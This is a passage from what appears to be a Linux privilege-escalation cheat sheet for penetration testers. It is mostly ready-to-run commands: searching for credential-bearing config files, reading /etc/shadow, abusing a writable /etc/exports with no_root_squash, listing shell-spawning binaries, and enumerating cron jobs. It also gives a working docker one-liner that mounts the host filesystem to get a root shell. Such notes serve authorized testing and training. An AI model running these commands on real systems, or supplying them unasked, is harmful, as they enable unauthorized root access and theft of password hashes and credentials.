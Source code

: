 ```
find . -iname 'config' 2>/dev/null
```

Research where creds would be stored on certain webapps

#### Can you see the shadow file - get lucky?

```
cat /etc/shadow
```

What services are running as root?:

```
ps aux | grep root
```

Look for vulnerable/privileged components such as: mysql, sudo, udev, python

If **/etc/exports** if writable, you can add an NFS entry or change and existing entry adding the **no\_root\_squash** flag to a root directory, put a binary with SUID bit on, and get root.

### Some programs that can be used to spawn a shell:

```
nmap
vim
less
more
```

## Docker

Are you in a docker usergroup

```
uid=1000($user)gid=1000($user)groups=1000($user),24(cdrom),25(floppy),999(docker)
```

Get the image name `docker ps` then run

```
docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh
```

this will then get you a root shell

{% hint style="success" %}
[https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)
{% endhint %}

## Cron Jobs

### What jobs are scheduled?

```
crontab -l 2>/dev/null
ls -alh /var/spool/cron 2>/dev/null
ls -al /etc/ | grep cron 2>/dev/null
ls -al /etc/cron* 2>/dev/null
cat /etc/cron* 2>/dev/null
cat /etc/at.allow 2>/dev/null
cat /etc/at.deny 2>/dev/null
cat /etc/cron.allow 2>/dev/null
cat /etc/cron.deny 2>/dev/null
cat /etc/crontab 2>/dev/null
cat /etc/anacrontab 2>/dev/null
cat /var/spool/cron/crontabs/root 2>/dev/null
```
